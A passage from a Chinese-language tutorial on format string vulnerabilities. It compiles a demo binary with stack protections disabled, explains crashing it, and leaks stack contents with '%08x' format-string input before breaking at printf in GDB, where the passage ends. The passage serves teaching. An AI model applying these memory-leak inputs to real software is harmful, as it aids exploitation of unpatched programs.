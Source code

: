```bash
$ gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
```

---

### 1.3.1 使程序崩溃

崩溃原因是因为栈上不可能每个值都对应了合法的地址，所以总是会有某个地址可以使得程序崩溃（地址越界访问）。

<center><img src="./img/格式化字符串崩溃.PNG" ></center>

---

### 1.3.2 查看栈内容

首先测试一下执行效果：

```bash
$ ./leakmemory

%08x.%08x.%08x
```

执行结果
```bash
./leakmemory
%08x.%08x.%08x
00000001.22222222.ffffffff.%08x.%08x.%08x
ffbbe980.000000c2.f7e4c79b
```


---

为了更加细致的观察,使用 GDB 调试。

```bash
#使用 gdb 进行调试
$gdb leakmemory
# 下断点
gdb-peda$ b printf
    Breakpoint 1 at 0x8048330
#开始执行程序
gdb-peda$ r
    Starting program: /home/giantbranch/tmp/leakmemory
    %08x.%08x.%08x

```


程序**断在 printf 函数首次调用位置**，查看栈空间。

---